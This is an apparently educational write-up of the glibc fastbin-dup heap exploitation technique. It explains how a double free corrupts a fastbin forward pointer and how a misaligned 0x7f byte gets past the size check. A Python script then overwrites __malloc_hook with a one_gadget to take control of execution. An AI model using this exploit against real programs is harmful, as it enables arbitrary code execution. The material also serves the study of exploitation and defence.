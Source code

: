 ## Implementation

The goal is to corrupt the fastbin last item's forward pointer via a double free vulnerability for instance.
corrupting that pointer allows to create a fake entry in the fastibin, wich will be return by malloc as a last fastbin item. If we can control this pointer, we can control the address of fake item that will be return through malloc and potentially written to by the victim's code afterwards. hence giving an arbitrary write primitive.

### Mitigation
One issue to look for is glibc's mitigation wich checks if the size field of a fastbin item is within the size boundaries of its fastbin before it can be return through malloc.

To bypass this mitigation it becomes mendatory to set or find a naturaly occurence where the 8 or 4 bytes values before our target corresponds to its corresponding fastbin size before calling malloc, or an execption will be thrown with a corrupted fastbin message.

One can also use unaligned addresses and find a libc address which will start with 0x7f on 64 bits systems and which previous address is equal to 0.

```python
chunk_A = malloc(0x68, "A"*0x68)
chunk_B = malloc(0x68, "B"*0x68)

# Free the first chunk, then the second to perform the double free vulnerability
free(chunk_A)
free(chunk_B)
free(chunk_A)


viable_fake_bin_offset = 27+8 # 0x7f at malloc_hook-27, so viable addr at malloc-27 + 8 (address after the size field)

# Write the target address to the duplicated item, wich is also the forward pointer in the duplicate located in the fastbin
dupA = malloc(0x68, p64(libc.sym.__malloc_hook - viable_fake_bin_offset))

# Empty the fastbin until the last element (the crafted fake item)
chunk_A = malloc(0x68, "A"*0x68)
chunk_A = malloc(0x68, "A"*0x68)

one_gadget = 0xe1fa1 # We use a one gadget for convenience
# Write your data at the target address
chunk_A = malloc(0x68, (b"Q" * (viable_fake_bin_offset-16)) + p64(one_gadget + libc.address))

# Trigger malloc_hook
chunk_A = malloc(0, b'')
```